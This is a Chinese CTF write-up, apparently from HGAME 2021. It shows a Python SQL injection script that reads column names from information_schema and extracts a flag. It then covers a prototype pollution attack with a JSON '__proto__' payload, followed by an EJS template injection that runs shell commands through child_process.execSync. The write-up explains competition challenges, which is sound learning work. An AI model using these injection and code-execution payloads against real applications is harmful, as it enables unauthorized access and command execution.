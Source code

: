 ```python
columnName = getOutput("select group_concat(column_name) from information_schema.columns where table_name in ('{}')".format(tableName))
# columnName = 'ffllllaaaagg'
print(columnName)
# 获取flag
flag = getOutput('select/**/{}/**/from/**/{}'.format(columnName, tableName))
# flag = '0rm_i5_th3_s0lu7ion'
print(flag)
```



hgame{0rm_i5_th3_s0lu7ion}



## 漫无止境的星期日

![image-20210222032705759](https://i.loli.net/2021/02/22/iTnytNpf9ZA1j62.png)

代码分析，判断存在原型链污染问题

![image-20210222192634974](https://i.loli.net/2021/02/22/RN48ZOBHQ9V6WTP.png)

本来 Post 的是表单数据，利用特性，可以 Post Json 上去，让服务器解析，结合资料：

[深入理解 JavaScript Prototype 污染攻击](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)

构建payload：

```json
{"name": "test1", "discription": "test2", "__proto__": {"crying": true}}
```

![image-20210222192953602](https://i.loli.net/2021/02/22/OysJ769jaSIcx8b.png)

发送后获得新 Cookie

成功进入 Wish 页面（这里大意了，挺早就构造了对的 Payload ，结果一直没有去 Wish 页面检查是否可以进入）

![image-20210222193032465](https://i.loli.net/2021/02/22/b4LZW72oTK3aQCU.png)

接下来就是考虑利用这个[模板字符串](https://ejs.bootcss.com/)的漏洞

![image-20210222204132638](https://i.loli.net/2021/02/22/f7dc6x8VWnTwBO9.png)

然后写了程序测试了一下

![image-20210222211809934](https://i.loli.net/2021/02/22/AcGWq7I3EUORXfv.png)

成功执行语句

然后试了半天成功执行 shell 语句

```
<%- global.process.mainModule.require('child_process').execSync('ls') %>
```
